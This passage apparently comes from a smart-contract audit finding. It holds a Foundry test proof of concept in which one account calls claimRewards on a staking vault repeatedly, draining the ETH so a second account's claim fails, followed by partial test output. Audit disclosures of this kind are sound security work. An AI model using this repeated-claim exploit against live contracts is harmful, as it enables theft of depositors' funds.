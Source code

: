 ```diff
+        vm.prank(accountOne);
+        vault.claimRewards(accountOne, getBytesArrayFromBytes(blsPubKeyFour));
+        logAccounts();
+
+        console.log("depositing %s wei into the vault.\n", rewardsAmount);
+        vm.deal(address(vault), address(vault).balance + rewardsAmount);
+        vm.warp(block.timestamp + 3 hours);
+        logAccounts();
+
+        console.log("Claiming rewards for accountOne.\n");
+        vm.prank(accountOne);
+        vault.claimRewards(accountOne, getBytesArrayFromBytes(blsPubKeyFour));
+        logAccounts();
+
+        console.log("Claiming rewards for accountOne AGAIN.\n");
+        vm.prank(accountOne);
+        vault.claimRewards(accountOne, getBytesArrayFromBytes(blsPubKeyFour));
+        logAccounts();
+
+        console.log("Claiming rewards for accountOne AGAIN.\n");
+        vm.prank(accountOne);
+        vault.claimRewards(accountOne, getBytesArrayFromBytes(blsPubKeyFour));
+        logAccounts();
+
+        //console.log("Claiming rewards for accountTwo.\n");
+        vm.prank(accountTwo);
+        vault.claimRewards(accountTwo, getBytesArrayFromBytes(blsPubKeyFour));
+
+    }
+
+    function logAccounts() internal {
+        console.log("accountOne previewAccumulatedETH : %i", vault.previewAccumulatedETH(accountOne, vault.lpTokenForKnot(blsPubKeyFour)));
+        console.log("accountOne claimed               : %i", SyndicateRewardsProcessor(vault).claimed(accountOne, address(vault.lpTokenForKnot(blsPubKeyFour))));
+        console.log("accountTwo previewAccumulatedETH : %i", vault.previewAccumulatedETH(accountTwo, vault.lpTokenForKnot(blsPubKeyFour)));
+        console.log("accountTwo claimed               : %i", SyndicateRewardsProcessor(vault).claimed(accountTwo, address(vault.lpTokenForKnot(blsPubKeyFour))));
+        console.log("ETH Balances: accountOne: %i, accountTwo: %i, vault: %i\n", accountOne.balance, accountTwo.balance, address(vault).balance);
+    }
+
 }

```

Note that the AccountOne repeatedly claims until the vault is empty and the claim for accountTwo fails.

Following is an output of the test script showing the balances and differnet state variables:
```
forge test -vv --match testRepetitiveClaim
[⠑] Compiling...
No files changed, compilation skipped

Running 1 test for test/foundry/StakingFundsVault.t.sol:StakingFundsVaultTest
[FAIL. Reason: Failed to transfer] testRepetitiveClaim() (gas: 3602403)
Logs:
  depositing 1200000000000000000 wei into the vault.

  accountOne previewAccumulatedETH : 600000000000000000
  accountOne claimed               : 0
  accountTwo previewAccumulatedETH : 600000000000000000
```